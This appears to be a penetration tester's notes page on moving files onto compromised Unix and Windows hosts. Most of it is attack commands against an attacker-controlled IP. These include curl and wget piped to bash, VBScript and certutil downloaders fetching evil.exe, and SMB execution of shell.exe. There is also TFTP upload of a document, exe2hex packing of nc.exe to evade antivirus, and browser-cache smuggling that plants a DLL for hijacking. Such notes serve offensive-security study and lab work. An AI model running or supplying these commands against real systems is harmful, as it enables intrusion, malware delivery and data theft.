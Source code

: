 One of the biggest problem on this phase are **anti viruses**.
A great method to bypass this issue is to use legitimate administrative tools. Second problem is the non-interactive shell. We have to use non-interactive tools to achieve our goals to upload files it we do not have a full interactive shell.

## Hosting files

Files have to be hosted somewhere in order to be downloaded after. The most common places are:

- [HTTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#HTTP%20Server)
- [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
- [SMB](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)

---

# Unix tools and methods

- **curl**
    
    ```bash
    curl 192.168.119.209/file.sh -o file.sh		# save file locally
    curl 192.168.119.209/file.sh | bash			# in memory execution
    ```
    
- **wget**
    
    ```bash
    wget 192.168.119.209/file.sh -O file.sh		# save file locally
    wget -O - 192.168.119.209/file.sh | bash	# in memory execution
    ```
    
- [netcat](../Tools/netcat.md#File%20transfer)
- **scripting languages**
- **scp**
- **pure-ftpd**
- **HTTP/HTTPS**

---

# Windows tools and methods

## FTP Script (`ftp -s`)

Server: [FTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#FTP%20Server)
Script:

```powershell
echo open 10.11.0.4 21> ftp.txt
echo USER offsec>> ftp.txt
echo lab>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```

Shell command:

```powershell
C:\Users\offsec> ftp -v -n -s:ftp.txt
```

## TFTP

[TFTP - Trivial File Transfer Protocol](../Services/TFTP%20-%20Trivial%20File%20Transfer%20Protocol.md) is a UDP based file transfer protocol, often restricted by egress firewall rules. Old version of Windows (up to XP and 2003) contains it as default.
Server: [TFTP Server](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#TFTP)
Client:

```powershell
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s

C:\Users\Offsec> tftp -i 10.11.0.4 get important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

## VB Script (`cscript wget.vbs`)

Copy-Paste sequence:

```visual-basic
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Shell command:

```powershell
C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

## Powershell
[File Transfer](../Dev,%20scripting%20&%20OS/Powershell%20for%20pentesters.md#File%20Transfer) using built-in Powershell features

## Assembling disassembled binary (`exe2hex` and `exe2bat`)

Disassembling the original program:

```bash
kali@kali:~$ upx -9 nc.exe
	Ultimate Packer for eXecutables
	Copyright (C) 1996 - 2018
	UPX 3.95 Markus Oberhumer, Laszlo Molnar & John Reiser Aug 26th 2018
	File size Ratio Format Name
	-------------------- ------ ----------- -----------
	59392 -> 29696 50.00% win32/pe nc.exe
Packed 1 file.
kali@kali:~$ exe2hex -x nc.exe -p nc.cmd
[*] exe2hex v1.5.1
[+] Successfully wrote (PoSh) nc.cmd

# Legacy
root@kali:~$ locate exe2bat
root@kali:~$ wine /usr/share/windows-binaries/exe2bat nc.exe nc_legacy.cmd
```

Re-building the program:

```bash
# Incollo i comandi ottenuti con exe2hex

# incollo i comandi ottenuti con exe2bat
debug <123.hex
```

## SMB

Server: [SMB ](../Dev,%20scripting%20&%20OS/Dynamic%20Servers.md#SMB)
Client:

```powershell
C:> net view \\AttackerIP   // Our designated share name should be visible in the output
C:> dir \\AttackerIP\transfer_share
C:> copy \\AttackerIP\transfer_share\shell.exe
C:> \\AttackerIP\transfer_share\shell.exe

# Mounting authenticated shares
PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /user:maoutis Qwerty
The command completed successfully.

PS C:\Program Files (x86)\StorageService> net use \\192.168.119.209 /delete
\\192.168.119.209 was deleted successfully.
```

## certutil

```powershell
certutil -urlcache -split -f http://AttackerIP/file C:\path\to\out\file
```

# Alternative and circumstantial situations

## Browser Cache Smuggling

Modern browsers (Firefox) implemented a mechanism that allow them storing static files locally on the computer in order not to reload them every time. This mechanism is called the browser cache, but it will not cache any files proposed by a server, but only static resources.

Our goal is to force the download of either a DLL or an executable. To do so, we’ll simply have to change the content type related to the dll and exe files from: `application/x-msdos-program` to `image/jpg`. and serves it as an image: [^browser-cache-smug]

```html
<img src=evilDll.dll>
```

[^browser-cache-smug]: [Browser Cache Smuggling](../../Readwise/Articles/Aurélien%20Chalot%20-%20Browser%20Cache%20Smuggling.md)

Because cached files are saved without extension and with a random name, we need to inject some custom metadata in order to find them easily. We can do it using custom Tags on our web server configuration:

```
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	root /var/www/html;
	index index.html index.htm index.nginx-debian.html;
	server_name _;

	# Adding the header used to find the real DLL
	location /evilDll.dll {
		add_header Tag DLLHERE;
	}
}
```

We can find those tags using powershell: 

```powershell
foreach ($f in @("$env:LOCALAPPDATA\Mozilla\Firefox\Profiles\*.default-release\cache2\entries\")){Get-ChildItem $f -Recurse|%{if(Select-String -Pattern "DLLHERE" -Path $_.FullName){copy $_.FullName $env:LOCALAPPDATA\Microsoft\OneDrive\CRYPTBASE.dll}}}
```

---

# External References:

- [https://github.com/LOLBAS-Project/LOLBAS](https://github.com/LOLBAS-Project/LOLBAS)